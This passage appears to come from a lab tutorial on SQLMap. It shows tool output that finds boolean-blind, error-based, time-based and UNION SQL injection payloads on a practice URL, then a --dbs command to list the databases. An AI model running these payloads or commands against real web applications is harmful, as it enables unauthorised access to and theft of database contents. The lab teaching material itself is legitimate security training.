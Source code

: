 ```shell
sqlmap identified the following injection point(s) with a total of 47 HTTP(s) requests:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: cat=1 AND EXTRACTVALUE(1846,CONCAT(0x5c,0x716a787071,(SELECT (ELT(1846=1846,1))),0x7170766a71))

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: cat=1 AND SLEEP(5)

    Type: UNION query
    Title: Generic UNION query (NULL) - 11 columns
    Payload: cat=1 UNION ALL SELECT CONCAT(0x716a787071,0x714d486661414f6456787a4a55796b6c7a78574f7858507a6e6a725647436e64496f4965794c6873,0x7170766a71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- HMgq
---
[08:45:16] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu
web application technology: Nginx, PHP 5.6.40
back-end DBMS: MySQL >= 5.1
[text removed]
```

The results in the above terminal show us that different types of **SQL injection**, such as boolean-based blind, error-based, time-based blind, and UNION query, are identified in the target URL. These are different techniques for exploiting a SQL injection vulnerability. For example, in the boolean-based blind **SQL injection**, the **SQL** query is modified, and a boolean expression (that is always true, e.g., `1=1`) is included with the query to extract the information. Whereas in the error-based **SQL injection**, some queries are intentionally modified to generate errors in the results sent by the database. These errors often contain valuable information about the data. Similarly, other **SQL injection** techniques can also be employed to exploit a database.

The results from the command we executed for our target [`http://sqlmaptesting.thm/search/cat=1`](http://sqlmaptesting.thm/search/cat=1) tell us that different types of **SQL injection** are possible on this URL. Let's use **SQLMap's** flags, which we studied earlier, to exploit them and extract some valuable data from the database.

To fetch the databases, we use the flag `--dbs`. Let's try this flag out with our vulnerable URL:

```shell
user@ubuntu:~$ sqlmap -u http://sqlmaptesting.thm/search/cat=1 --dbs
       __H__
 ___ ___[(]_____ ___ ___  {1.2.4#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V          |_|   http://sqlmap.org

[text removed]
[08:49:00] [INFO] resuming back-end DBMS' mysql' 
[08:49:00] [INFO] testing connection to the target URL
[08:49:01] [INFO] heuristics detected web page charset 'ascii'
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: cat (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cat=1 AND 2175=2175
[text removed]    
[08:49:01] [INFO] the back-end DBMS is MySQL
```